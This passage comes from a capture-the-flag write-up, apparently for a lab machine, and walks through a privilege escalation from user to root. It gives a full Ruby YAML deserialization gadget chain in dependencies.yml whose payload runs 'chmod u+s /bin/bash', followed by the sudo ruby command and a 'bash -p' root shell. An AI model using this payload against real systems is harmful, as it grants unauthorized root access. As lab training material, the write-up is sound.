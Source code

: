```ruby
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

The file is actually read a file called `dependencies.yml`, I look for a "ruby privilege Escalation" on google and found this website https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/ruby-privilege-escalation/ that provide us an example, based on this website, I understand that changing the `git_set: ` to our desired payload can help us do privilege escalation, in this case we can see that the `/bin/bash` is owned by `root`, we can confirm this by running `ls -al /bin/bash`

```bash
henry@precious:~$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
```

We can use the payload `chmod u+s /bin/bash` and create a dependencies.yml file. The payload there means when we run the `/bin/bash` command, it'll run as the file owner, which is root.

**dependencies.yml**
```ruby
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: chmod u+s /bin/bash
         method_id: :resolve
```

Now we just need to run the only sudo command we're allowed to run `sudo /usr/bin/ruby /opt/update_dependencies.rb`, and then we just run `bash -p`, and see what we got.

```bash
henry@precious:~$ bash -p
bash-5.1# ls
dependencies.yml  user.txt
bash-5.1# whoami
root
bash-5.1# 
```
